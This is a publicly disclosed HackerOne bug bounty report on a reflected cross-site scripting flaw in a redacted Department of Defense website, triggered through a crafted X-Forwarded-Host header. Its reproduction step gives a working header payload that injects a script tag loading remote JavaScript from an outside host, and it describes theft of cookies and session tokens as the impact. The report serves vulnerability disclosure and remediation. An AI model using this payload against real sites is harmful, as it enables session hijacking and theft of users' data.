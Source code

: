 # XSS via X-Forwarded-Host header

## Report Details
- **Report ID**: 882220
- **URL**: https://hackerone.com/reports/882220
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-25T12:52:39.230Z
- **Disclosed**: 2021-05-11T20:19:54.871Z

## Reporter
- **Username**: geeknik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
The `█████` website is vulnerable to a cross-site scripting flaw if the server receives a crafted `X-Forwarded-Host` header.

**Description:**
The server reads data directly from the HTTP request and reflects it back in the HTTP response. Reflected XSS exploits occur when an attacker causes a victim to supply dangerous content to a vulnerable web application, which is then reflected back to the victim and executed by the web browser. The most common mechanism for delivering malicious content is to include it as a parameter in a URL that is posted publicly or e-mailed directly to the victim. URLs constructed in this manner constitute the core of many phishing schemes, whereby an attacker convinces a victim to visit a URL that refers to a vulnerable site. After the site reflects the attacker's content back to the victim, the content is executed by the victim's browser.

## Impact
This flaw allows attackers to pass rogue JavaScript to unsuspecting users. The user’s browser has no way to know the script should not be trusted, so it will execute the script and because the browser thinks the script came from a trusted source, aka your website, a malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with your site. These scripts can even rewrite the content of the HTML page. In fact, here is a list of 21 other things that hackers can do with an XSS flaw: https://s0md3v.github.io/21-things-xss/

## Step-by-step Reproduction Instructions
1.Visit `https://█████/████████/` whilst setting the `X-Fowarded-Host` header to `foo"><script src=//dtf.pw/2.js></script><x=".com`.
2. Notice the JavaScript alert box displaying some cookie information like so:
```
██████████_██████████=
```

## Product, Version, and Configuration (If applicable)

## Suggested Mitigation/Remediation Actions
Ignore invalid browser headers. Filter metacharacters from user input. Y'all know the drill.

## Impact

This flaw allows attackers to pass rogue JavaScript to unsuspecting users. The user’s browser has no way to know the script should not be trusted, so it will execute the script and because the browser thinks the script came from a trusted source, aka your website, a malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with your site. These scripts can even rewrite the content of the HTML page. In fact, here is a list of 21 other things that hackers can do with an XSS flaw: https://s0md3v.github.io/21-things-xss/

## Attachments
No attachments

